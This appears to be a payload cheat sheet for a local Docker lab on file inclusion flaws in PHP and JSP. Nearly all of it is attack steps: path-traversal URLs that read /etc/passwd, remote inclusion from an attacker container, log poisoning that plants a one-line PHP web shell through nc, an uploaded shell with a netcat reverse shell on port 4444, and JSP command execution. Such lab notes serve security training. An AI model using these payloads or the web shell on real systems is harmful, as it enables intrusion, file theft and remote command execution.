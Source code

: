 # Payloads

## PHP

- http://127.0.0.1:4353/lfi.php?language=http://172.18.0.3/check.php?

see `allow_url_include` in response

- http://127.0.0.1:4353/lfi.php?page=/etc/passwd

- By Experiment add ../ since before etc/passwd until:

http://127.0.0.1:4353/lfi.php?page=../../../etc/passwd

- Get "access.log", changed here to "access_combined.log" because stdout is going out of docker:

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id

-- Check for uid in output

- Upload check.php from attacker-server src folder
load
http://127.0.0.1:4353/lfi.php?language=/var/www/html/uploads/check

- upload shell.php
http://127.0.0.1:4353/lfi.php?language=/var/www/html/uploads/shell
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444

## JSP

http://localhost:8888/webapp/?help=runme.jsp?exec=ls
http://localhost:8888/webapp/?help=runme.jsp?exec=cat%20/etc/passwd

http://localhost:8888/webapp/?help=http://172.18.0.3:80/jsp/introduction

# Further Information

https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion
